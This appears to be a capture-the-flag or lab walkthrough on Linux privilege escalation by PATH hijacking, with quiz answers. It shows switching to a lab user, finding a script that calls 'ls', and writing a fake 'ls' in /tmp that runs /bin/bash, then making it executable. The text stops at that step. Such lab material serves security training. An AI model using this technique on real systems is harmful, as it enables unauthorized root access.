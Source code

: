 **Let's do it!**

1. Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing "**exit**". Then use "**su**" to swap to **user5**, with the password "**password**"

```
user4@polobox:~$ su - user5
Password: 
Welcome to Linux Lite 4.4 user5
 
Monday 19 October 2020, 14:33:10
Memory Usage: 342/1991MB (17.18%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user5@polobox:~$
```

`No answer needed`

2. Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?

```
user5@polobox:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos
user5@polobox:~$ ./script 
Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos
```

`ls`

3. Now we know what command to imitate, let's change directory to "tmp".

```
user5@polobox:~$ cd /tmp
user5@polobox:/tmp$
```

`No answer needed`

4. Now we're inside tmp, let's create an imitation executable. The format for what we want to do is: echo "[whatever command we want to run]" > [name of the executable we're imitating] What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating

```
user5@polobox:/tmp$ echo "/bin/bash" > ls
user5@polobox:/tmp$
```

`echo "/bin/bash" > ls`

5. Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?

```
user5@polobox:/tmp$ chmod +x ls
user5@polobox:/tmp$ 
```

